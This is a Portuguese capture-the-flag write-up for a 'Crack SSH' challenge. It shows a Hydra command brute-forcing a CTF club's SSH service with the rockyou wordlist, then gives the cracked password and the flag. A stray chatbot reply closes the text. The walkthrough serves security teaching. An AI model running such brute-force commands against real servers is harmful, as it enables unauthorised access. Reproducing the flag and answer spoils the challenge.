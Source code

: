 # Crack SSH

> Autor: @Ralfbp

---

## 🧹 Tipos de desafio "Crack SSH"

> Link: [https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7](https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7)

---

### Introdução

#### Enunciado

[![Captura-de-tela-2025-06-06-171425.png](https://i.postimg.cc/rmXvwhMN/Captura-de-tela-2025-06-06-171425.png)](https://postimg.cc/GBKMMxB4)

#### 🔑Objetivo

```
   Brute Force de Senha (Senha fraca)
```

#### 🛠️ Ferramenta utilizada:

```
   Virtual box: https://www.virtualbox.org/
   Kali lunix: https://www.kali.org/get-kali/#kali-platforms
   hydra: https://www.kali.org/tools/hydra/
   ChatGPT:https://chatgpt.com/
```

#### informações utilizadas

```
   Endereço do servidor ssh: ctf.chapeudepalhahacker.club:3342.
   Usuario do servidor: John
```

#### A flag segue o seguinte padrão:

```
   flag{.........}
```

---

## 🛠️ Resolução

* Ao tentar se conectar com o servidor diretamente, ele te pedira a senha que não te foi fornecida

```
   Comando para se conectar: ssh John@ctf.chapeudepalhahacker.club -p 3342
```

[![Captura-de-tela-2025-06-06-172824.png](https://i.postimg.cc/QCZykStx/Captura-de-tela-2025-06-06-172824.png)](https://postimg.cc/jwvcRHPG)

* Utilizaremos o Brute Force do hydra para tentar conseguir a senha
* Usando o comando para o teste de **Brute force**

```
   hydra -l john -P /usr/share/wordlists/rockyou.txt -s 3342 ssh://ctf.chapeudepalhahacker.club
```

[![Captura-de-tela-2025-06-06-234753.png](https://i.postimg.cc/d0MjCdy6/Captura-de-tela-2025-06-06-234753.png)](https://postimg.cc/NK4XqKb2)

* Login e senha

```
   login: John
   senha: iloveyou
```

* Se conectando ao servidor, usando o comando

```
   ssh john@ctf.chapeudepalhahacker.club -p 3342
```

* E colocando a senha encontrada anteriomente

[![Captura-de-tela-2025-06-06-235905.png](https://i.postimg.cc/gjQqz6yf/Captura-de-tela-2025-06-06-235905.png)](https://postimg.cc/YLNm80s3)

* Com isso você encontrou a sua flag

```
flag{BRUT3_SSH_15_V3RY_34SY}
```

---

## ✅ Conclusão

O desafio "Crack SSH" demonstra como senhas fracas podem comprometer sistemas inteiros. Utilizando ferramentas adequadas como o Hydra e wordlists conhecidas (como o rockyou.txt), foi possível realizar um ataque de força bruta com sucesso e obter a flag. Além de reforçar a importância da segurança em serviços SSH, o exercício serve como uma introdução prática ao uso de ferramentas de pentest no Kali Linux.

> ⚡ A flag final é: **flag{BRUT3\_SSH\_15\_V3RY\_34SY}**

Se quiser, posso adaptar essa conclusão para um tom mais descontraído ou técnico — é só pedir!
